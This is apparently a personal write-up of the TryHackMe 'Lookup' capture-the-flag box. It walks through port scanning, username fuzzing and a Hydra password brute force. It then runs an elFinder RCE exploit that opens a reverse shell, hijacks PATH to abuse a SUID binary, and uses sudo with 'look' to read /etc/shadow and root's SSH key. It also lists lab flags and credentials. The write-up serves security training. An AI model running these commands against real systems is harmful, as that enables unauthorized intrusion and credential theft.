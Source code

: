 # Lookup

# Lookup - TryHackMe Walkthrough

## 🧩 Overview

- **Platform:** TryHackMe
- **Box Name:** Lookup
- **Difficulty:** Easy
- **Date Completed:** 16/07/2025
- **Summary:** Web login brute-force > PHP RCE via vulnerable elFinder > Privilege escalation to user through SUID PATH hijack > Root via sudo abuse of `look` to access SSH private key.

---

## 1. 🔍 Enumeration

### Port Scanning

```bash
nmap -p- --open -sS -n -T4 -vvv 10.10.102.13 -oN full_tcp_scan.txt
```

- Port 22: SSH
- Port 80: HTTP

Follow-up service scan:

```bash
nmap -p 22,80 -sC -sV -n -T4 -vvv 10.10.102.13 -oN targeted_scan.txt
```

- Port 22: OpenSSH 8.2p1 (Ubuntu 4ubuntu0.9)
- Port 80: Apache/2.4.41 (Ubuntu)

---

### Web Enumeration

The IP resolves as `lookup.thm`, which I added to `/etc/hosts`. Visiting the site shows a login form at `/index.php`.

I used `gobuster` to look for additional content:

```bash
gobuster dir -u http://10.10.102.13 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50 -o gobuster_results.txt -k -r
```

Only `/index.php` appeared relevant.

---

### Login Portal Analysis

Using Burp Suite, I tested login responses. Submitting a known username (`admin`) and a dummy password gives:

```
Wrong password. Please try again.<br>Redirecting in 3 seconds.
```

Trying a non-existent username shows:

```
Wrong username or password. Please try again.<br>Redirecting in 3 seconds.
```

This difference in responses can be used to fuzz for valid usernames.

---

### Username Fuzzing (ffuf)

```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt \
     -X POST \
     -u http://lookup.thm/login.php \
     -d 'username=FUZZ&password=REDACTED' \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -fr "Wrong username or password"
```

🧠 **Learning:** Spent a long time trying to fuzz usernames with Hydra to no avail. Switched to `ffuf` and got results instantly.

- Valid username found: `jose`

---

### Password Bruteforce (Hydra)

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password" -f -V

```

- Credentials found: `jose:password123`

---

## 2. 💥 Initial Foothold

After logging in, the portal revealed a file manager interface powered by **elFinder v2.1.47**, which is vulnerable to command injection (CVE-2019-9194).

Exploitation was done using this PoC:

https://github.com/hadrian3689/elFinder_2.1.47_php_connector_rce

```bash
python3 elfinder.py -t http://files.lookup.thm/elFinder/ -lh 10.9.0.89 -lp 4305
```

This gave a reverse shell as `www-data`.

---

## 3. 🚀 Privilege Escalation

### User Privilege Escalation – think

In `/home/think/`, `user.txt` was present but unreadable by `www-data`. Searching for SUID binaries revealed `/usr/sbin/pwm`.

```bash
strings pwm
```

The binary:

- Executes the `id` command.
- Parses the username from the output.
- Constructs a path: `/home/<username>/.passwords`
- Attempts to read that file.

Since `id` isn’t invoked with an absolute path, I performed PATH hijacking:

```bash
echo -e '#!/bin/bash\necho "uid=1000(think) gid=1000(think) groups=1000(think)"' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
```

Running `pwm` now read the file `/home/think/.passwords`, which contained a long list of possible passwords.

Bruteforcing with Hydra:

```bash
hydra -l think -P lookup.txt ssh://10.10.102.13
```

- Valid credentials found: `think:josemario.AKA(think)`
- User flag located at `/home/think/user.txt`

---

### Root Privileges – Sudo Abuse with `look`

Checking `sudo -l` revealed:

```bash
User think may run the following commands:
    (ALL) /usr/bin/look
```

According to GTFOBins, `look` can read files when passed an empty search string:

```bash
sudo look "" /etc/shadow
```

This revealed password hashes. While running a cracker, I also checked `/root/.ssh/id_rsa`:

```bash
sudo look "" /root/.ssh/id_rsa
```

Found a full private SSH key. Saved it, set correct permissions, and logged in as root:

```bash
ssh -i lookup_id root@10.10.87.108
```

Root flag retrieved from `/root/root.txt`.

---

## 📝 Key Learnings

- `ffuf` is significantly more effective for username fuzzing than Hydra in certain cases.
- PATH hijacking with custom scripts is a common vector in CTF-style privilege escalation.
- It’s worth checking SUID binaries with `strings` to infer logic and potential abuse paths.
- CVE research and GitHub PoCs can provide quick paths to initial access.
- GTFOBins is a powerful resource when enumerating sudo permissions.

---

## 📂 Flags & Loot

- **User Flag:** `38375fb4dd8baa2b2039ac03d92b820e`
- **Root Flag:** `5a285a9f257e45c68bb6c9f9f57d18e8`

**Credentials:**

- Web login: `jose:password123`
- SSH user: `think:josemario.AKA(think)`
- SSH root: Private key recovered from `/root/.ssh/id_rsa`

---

## 🛠️ Tools Used

- `nmap`
- `gobuster`
- `ffuf`
- `hydra`
- `netcat`
- `Burp Suite`
- `python3`
- `GTFOBins`
- `strings`, `chmod`, `export`, `sudo`

---

## ✅ Box Completed: Lookup

🎯 **Goal:** Demonstrated enumeration, exploitation, and both user and root privilege escalation paths using common tools and manual analysis.

📘 **Portfolio Note:** This was a great learning opportunity for chaining multiple low-privilege issues into a full box compromise and reinforces the importance of detail during enumeration.
